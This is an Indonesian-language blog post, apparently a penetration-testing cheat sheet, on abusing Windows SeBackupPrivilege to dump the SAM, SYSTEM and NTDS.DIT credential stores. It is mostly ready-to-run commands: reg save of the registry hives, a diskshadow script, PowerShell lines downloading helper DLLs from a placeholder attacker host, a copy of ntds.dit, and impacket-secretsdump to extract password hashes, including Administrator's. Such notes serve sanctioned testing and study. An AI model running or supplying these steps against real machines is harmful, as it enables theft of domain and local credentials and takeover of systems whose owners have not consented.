 ```yaml
---
title: "[Windows PrivEsc] SeBackupPrivilege - Dump SAM, SYSTEM, and NTDS.DIT"
author: "novran"
date: 2024-11-20 00:00:00 +0700
categories: [Windows Privilege Escalation]
tags: [Windows Privilege Escalation]
image:
  path: /images/2024-11-20-windows-privilege-escalation-sebackupprivilege-dump-sam-system-ntds-dit-banner.png
---
```


Privilege `SeBackupPrivilege` di Windows dapat dimanfaatkan untuk eskalasi hak akses (Privilege Escalation) karena dengan ini pengguna memiliki kekuatan untuk melakukan operasi backup, termasuk membaca file atau direktori apa pun yang ada di sistem. Dengan ini kita dapat melakukan backup pada file `SAM`, `SYSTEM`, dan `NTDS.DIT` yang pada dasarnya file-file tersebut menyimpan kredensial yang tersimpan di dalam Operating System (termasuk kredensial milik Administrator sekali pun).

## Dump

### 1. Backup SAM

```
reg save HKLM\SAM C:\Windows\temp\SAM.bak
```

### 2. Backup SYSTEM

```
reg save HKLM\SYSTEM C:\Windows\temp\SYSTEM.bak
```

### 3. Backup NTDS.DIT

Untuk melakukan backup `NTDS.DIT` itu sedikit rumit dibandingkan saat backup `SAM` dan `SYSTEM`. Namun, di sini saya sudah merangkumnya agar mudah dieksekusi.

1. Download [SeBackupPrivilegeCmdLets.dll](https://github.com/k4sth4/SeBackupPrivilege/raw/refs/heads/main/SeBackupPrivilegeCmdLets.dll).
2. Download [SeBackupPrivilegeUtils.dll](https://github.com/k4sth4/SeBackupPrivilege/raw/refs/heads/main/SeBackupPrivilegeUtils.dll).
3. Buat file `vss.dsh`:
```
set context persistent nowriters
set metadata c:\\programdata\\test.cab
set verbose on
add volume c: alias test
create
expose %test% z:
```

Eksekusi:
```powershell
iwr -uri http://<ATTACKER_HOST>/SeBackupPrivilegeCmdLets.dll -outfile C:\Windows\temp\SeBackupPrivilegeCmdLets.dll
iwr -uri http://<ATTACKER_HOST>/SeBackupPrivilegeUtils.dll -outfile C:\Windows\temp\SeBackupPrivilegeUtils.dll
iwr -uri http://<ATTACKER_HOST>/vss.dsh -outfile C:\Windows\temp\vss.dsh
cd "C:\Windows\temp"
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
diskshadow /s C:\\Windows\\temp\\vss.dsh
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit C:\\Windows\\temp\\NTDS.DIT.bak
```

## Read Backup Files

### 1. Using Impacket-Secretsdump

Kalian bisa menjalankan command ini di mesin kalian sendiri (dengan catatan file-file yang di-backup sudah dipindahkan ke mesin kalian).

```bash
impacket-secretsdump -sam SAM.bak -system SYSTEM.bak -ntds NTDS.DIT.bak LOCAL
```
